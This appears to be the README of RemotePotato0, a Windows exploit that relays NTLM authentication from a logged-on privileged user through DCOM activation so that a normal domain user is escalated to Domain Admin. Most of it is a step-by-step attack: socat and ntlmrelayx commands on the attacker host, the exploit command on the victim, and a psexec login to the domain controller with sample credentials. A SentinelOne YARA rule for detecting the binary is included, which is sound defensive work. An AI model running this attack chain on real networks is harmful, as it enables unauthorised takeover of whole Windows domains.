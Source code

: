 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine.
It is required you have a shell in session 0 (e.g. WinRm shell or SSH shell) and that a privileged user is logged on in the session 1 (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

Full details at --> https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop

## Example

Attacker machine (192.168.83.130):

```
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 &
sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
```
**Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.**

Victim machine (192.168.83.131):

```
.\RemotePotato0.exe -r 192.168.83.130 -p 9998
```
**Note2: Remember you can pick an arbitrary session activation with the -s flag, very powerful!**

Victim Domain Controller (192.168.83.135)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

```
psexec.py 'SPLINTER/winrm_user_1:Password111!@192.168.83.135'
```

## Demo

### Cross session activation
<img src="demo_cross_session.gif">

### Shell in session 0
<img src="demo.gif">



## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [@tiraniddo](https://twitter.com/tiraniddo) - [Cross Session Activation](https://www.tiraniddo.dev/2021/04/standard-activating-yourself-to.html)
